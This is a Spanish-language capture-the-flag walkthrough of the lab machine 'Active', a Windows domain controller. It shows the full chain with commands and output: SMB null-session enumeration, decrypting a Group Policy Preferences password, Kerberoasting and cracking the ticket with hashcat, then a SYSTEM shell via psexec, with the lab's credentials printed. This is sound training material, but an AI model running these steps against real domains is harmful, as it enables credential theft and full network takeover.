


# Information

+ Machine Name: Active
+ Difficulty: Easy
+ OS: Windows
+ IP: 10.129.8.54

# Enumeracion

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n -vvv --open --min-rate 1000 -oG allports 10.129.8.54
```

```
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5722/tcp  open  msdfsr           syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49152/tcp open  unknown          syn-ack ttl 127
49153/tcp open  unknown          syn-ack ttl 127
49154/tcp open  unknown          syn-ack ttl 127
49155/tcp open  unknown          syn-ack ttl 127
49157/tcp open  unknown          syn-ack ttl 127
49158/tcp open  unknown          syn-ack ttl 127
49162/tcp open  unknown          syn-ack ttl 127
49166/tcp open  unknown          syn-ack ttl 127
49170/tcp open  unknown          syn-ack ttl 127
```

Por los puertos 88:kerberos, 445:smb, 389:ldap y 53:DNS se muy probable que se trate de un Domain Controller(DC).

Escanedo detallado:

```
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49162,49166,49170 -sCV -oN Targeted 10.129.8.54
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-09 12:33:57Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49162/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Nmap revela que es un Windows server 2008 R2 y el dominio `active.htb` que agregare al `/etc/hosts`.
## Smb

### GPP

Con `netexec` haciendo uso de una null session puedo listar los recursos compartidos, y observo que tengo permisos de lectura sobre `Replication`:

```
netexec smb active.htb -u "" -p "" --shares
```

```
SMB         10.129.79.243   445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.79.243   445    DC               [+] active.htb\: 
SMB         10.129.79.243   445    DC               [*] Enumerated shares
SMB         10.129.79.243   445    DC               Share           Permissions     Remark
SMB         10.129.79.243   445    DC               -----           -----------     ------
SMB         10.129.79.243   445    DC               ADMIN$                          Remote Admin
SMB         10.129.79.243   445    DC               C$                              Default share
SMB         10.129.79.243   445    DC               IPC$                            Remote IPC
SMB         10.129.79.243   445    DC               NETLOGON                        Logon server share 
SMB         10.129.79.243   445    DC               Replication     READ            
SMB         10.129.79.243   445    DC               SYSVOL                          Logon server share 
SMB         10.129.79.243   445    DC               Users
```

### smbclient

Dentro de `Replication` de encuentra un directorio `active.htb`:

```
smbclient //active.htb/Replication -N
```

```
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  active.htb
```

Puedo observar que se tarta de una copia del `SYSVOL`, y busco si se encuentra el archivo `Groups.xml` en las preferencias de grupo:

```
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> dir
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  Groups.xml 
```

Dentro del archivo se encuentra el usuario `SVC_TGS` y una contraseña cifrada:



Gracias a que Microsoft hizo publica la clave AES, con herramientas como gpp-decrypt se puede decifrar la contraseña al instante:

[Clave AES](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)



Microsoft aplico un parche 2014 para prevenir que los administradores pongan contraseñas en las GPP. 

Decifrado con `gpp-decrypt`:

```
gpp-decrypt root@kali /home/cangrejo/Escritorio/Active/content # gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Con `netexec` confirmo que son validas:

```
root@kali /home/cangrejo/Escritorio/Active/content # netexec smb active.htb -u "SVC_TGS" -p "GPPstillStandingStrong2k18"
SMB         10.129.8.54     445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.8.54     445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```

el usuario `SVC_TGS` tiene permisos de lectura en SYSVOL, Users y NETLOGON:

```
netexec smb active.htb -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --shares
```

```
SMB         10.129.8.54     445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.8.54     445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
SMB         10.129.8.54     445    DC               [*] Enumerated shares
SMB         10.129.8.54     445    DC               Share           Permissions     Remark
SMB         10.129.8.54     445    DC               -----           -----------     ------
SMB         10.129.8.54     445    DC               ADMIN$                          Remote Admin
SMB         10.129.8.54     445    DC               C$                              Default share
SMB         10.129.8.54     445    DC               IPC$                            Remote IPC
SMB         10.129.8.54     445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.8.54     445    DC               Replication     READ            
SMB         10.129.8.54     445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.8.54     445    DC               Users           READ
```

`Users` es el directorio `C:\Users`, se puede obtener la flag user.txt en el escritorio del usuario `SVC_TGS`:

```
smb: \SVC_TGS\> dir Desktop\
  .                                   D        0  Sat Jul 21 17:14:42 2018
  ..                                  D        0  Sat Jul 21 17:14:42 2018
  user.txt
  
                5217023 blocks of size 4096. 279524 blocks available
smb: \SVC_TGS\Desktop\> get user.txt 
getting file \SVC_TGS\Desktop\user.txt of size 34 as user.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

user.txt:

```
root@kali /home/cangrejo/Escritorio/Active/content # cat user.txt

39a7b***************************
```

Enumero mas usuario del dominio, pero `SVC_TGS` es el unico a parte de los predeterminados:

```
netexec smb active.htb -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --users
```

```
SMB         10.129.8.54     445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.8.54     445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
SMB         10.129.8.54     445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.8.54     445    DC               Administrator                 2018-07-18 19:06:40 0       Built-in account for administering the computer/domain 
SMB         10.129.8.54     445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.8.54     445    DC               krbtgt                        2018-07-18 18:50:36 0       Key Distribution Center Service Account 
SMB         10.129.8.54     445    DC               SVC_TGS                       2018-07-18 20:14:38 0        
SMB         10.129.8.54     445    DC               [*] Enumerated 4 local users: ACTIVE
```

# Kerberoasting

Uso `GetUsersSPNs` de `impacket` para encontrar servicios ejecutados bajo cuentas de usuario: 

```
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

Usuario `Administrator` asociado a un servicio:

```
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2025-07-09 14:24:36.105342
```

agregando `-request` solicita un TGS a ese SPN cifrado con la contraseña del servicio en un formato crackeable y compatible con herramientas como hashcat o john:

```
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

```
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2025-07-09 14:24:36.105342             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$3a2e5cadc7835ecf93b54678f5cec55c$306b21954d69b8107825d0839e92c9c75b62d99173c91ba926f7e4b8df9003da08a2bf6e966e802884105394a62a7378ba27f133d5c14548909d5506c824fbb8f001e567adea409f154030bb4cc468c305cf461cdb6f52bac745a0dcc15ba76c12837a495ee069d0668ba0512c6da647370cb3539fb3e243cc5e0b87775d6bbf8badf84fbe66fa70f94a970c82cc7fd84d49365db7842a5fb328295cb6eaf38959df49d72f460a647d420304c82df12183eb1982b023986036fb03e39c3e3b4cc1be7b1a23fa0bb5e298ab223d8d6240bbdb11012da059abfab71f127bf343394ff7dc96e424beae8e50375e1312b1eab74253ca3ee3bed937d9a02b0962b94891affb1c414b8a245e75b35a124b541923746b89b857e70752f3502896b8647e0b3981b30b7d353ece4b2db39d65e4b36eb6b7c0046640dbf41db706edd093d72c53b9ff24a0ab18be4c26741e3b86a3e875fb3bd05c6112960d7212ebbc948818b4fa45988c4bf73e887aa0b5ff1591522a325d9eb47f3ad06c0145471a96b2ef18cf7fe1e292fb4b80689cd45bac1c3cd6d030f91be5ac99d08f9a42b0113de7fd780db0d31d94b47ef9b454c97d5a3fcdf9fb16dfb8f7d750d9cd2e49caf5aa524cf200cef4a7c523ba4568c11fdcc59f495b5e35afe2ee814fdde0d31b79c260162f8dfd4c124ca1bd6a20f866c7094b380e75732c1fd22b5bf61c39525def866f92eef4a30c1ed835851c97abefa6e3b53305cfa5ed7fe82d2f8edd4d0545c432d3172ca3f7b1c93a4568b2e5023240b54a03ad360eb878fda09bf21edd599eec9ba1c9a9f377d1f2d514710817ba6ee691bea30c2db54fb7cd5d41f512433324cf3fddd62b1a7abf5baddc80eb8072733176757c187bfa05cce6ae504381a28e2fcdb3fb552fabdd867590756f6a329cd9be4ab6324573a12945a1f080c424829e4e91c347114ac37ea0af7cf771e80f1352ee640d02305c65522313e934d41eab9d0948457fd3c25f870a3e370150162bcb342514bec648a93bef3f555fbb15f76ddbb7101942609a6a3986670d3f05db6e6918c9685bb572e06d724fe135f9348f1809abc8f084fb4051e4ca36c1f387038f471ed2926268f431db89b018f9b497bb5b98c8a1a14e2dc84c233be10af1c09b37e12952eac3e4ae2b4a91b767ed4b158ccd6d6672623412d97c7ad51959091dfb6ccbdbe69569a5fd93c1e94365966eb0fffffcb5dde2c2ff6b7ab4df8ea881504c0071
```

## Hashcat

```
hashcat -h | grep Kerb
<..snip..>
13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
<..snip..>
```

```
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt 
```

```
<..snip..>
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$3a2e5cadc7835ecf93b54678f5cec55c$306b21954d69b8107825d0839e92c9c75b62d99173c91ba926f7e4b8df9003da08a2bf6e966e802884105394a62a7378ba27f133d5c14548909d5506c824fbb8f001e567adea409f154030bb4cc468c305cf461cdb6f52bac745a0dcc15ba76c12837a495ee069d0668ba0512c6da647370cb3539fb3e243cc5e0b87775d6bbf8badf84fbe66fa70f94a970c82cc7fd84d49365db7842a5fb328295cb6eaf38959df49d72f460a647d420304c82df12183eb1982b023986036fb03e39c3e3b4cc1be7b1a23fa0bb5e298ab223d8d6240bbdb11012da059abfab71f127bf343394ff7dc96e424beae8e50375e1312b1eab74253ca3ee3bed937d9a02b0962b94891affb1c414b8a245e75b35a124b541923746b89b857e70752f3502896b8647e0b3981b30b7d353ece4b2db39d65e4b36eb6b7c0046640dbf41db706edd093d72c53b9ff24a0ab18be4c26741e3b86a3e875fb3bd05c6112960d7212ebbc948818b4fa45988c4bf73e887aa0b5ff1591522a325d9eb47f3ad06c0145471a96b2ef18cf7fe1e292fb4b80689cd45bac1c3cd6d030f91be5ac99d08f9a42b0113de7fd780db0d31d94b47ef9b454c97d5a3fcdf9fb16dfb8f7d750d9cd2e49caf5aa524cf200cef4a7c523ba4568c11fdcc59f495b5e35afe2ee814fdde0d31b79c260162f8dfd4c124ca1bd6a20f866c7094b380e75732c1fd22b5bf61c39525def866f92eef4a30c1ed835851c97abefa6e3b53305cfa5ed7fe82d2f8edd4d0545c432d3172ca3f7b1c93a4568b2e5023240b54a03ad360eb878fda09bf21edd599eec9ba1c9a9f377d1f2d514710817ba6ee691bea30c2db54fb7cd5d41f512433324cf3fddd62b1a7abf5baddc80eb8072733176757c187bfa05cce6ae504381a28e2fcdb3fb552fabdd867590756f6a329cd9be4ab6324573a12945a1f080c424829e4e91c347114ac37ea0af7cf771e80f1352ee640d02305c65522313e934d41eab9d0948457fd3c25f870a3e370150162bcb342514bec648a93bef3f555fbb15f76ddbb7101942609a6a3986670d3f05db6e6918c9685bb572e06d724fe135f9348f1809abc8f084fb4051e4ca36c1f387038f471ed2926268f431db89b018f9b497bb5b98c8a1a14e2dc84c233be10af1c09b37e12952eac3e4ae2b4a91b767ed4b158ccd6d6672623412d97c7ad51959091dfb6ccbdbe69569a5fd93c1e94365966eb0fffffcb5dde2c2ff6b7ab4df8ea881504c0071:Ticketmaster1968
```

Contraseña del usuario Administrator:Ticketmaster1968:

```
netexec smb active.htb -u "Administrator" -p "Ticketmaster1968"
```

probando las credenciales con `netexec`, me muestra un `(Pwn3d!)` por lo que me puedo obtener una shell con `psexec`:

```
SMB         10.129.8.54     445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.8.54     445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```
## Psexec

Shell como `nt authority\system`:

```
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.129.8.54
```

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.8.54.....
[*] Found writable share ADMIN$
[*] Uploading file EkGOecpV.exe
[*] Opening SVCManager on 10.129.8.54.....
[*] Creating service MAHd on 10.129.8.54.....
[*] Starting service MAHd.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Flag root.txt:

```
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
409d0***************************
```

# 🦀
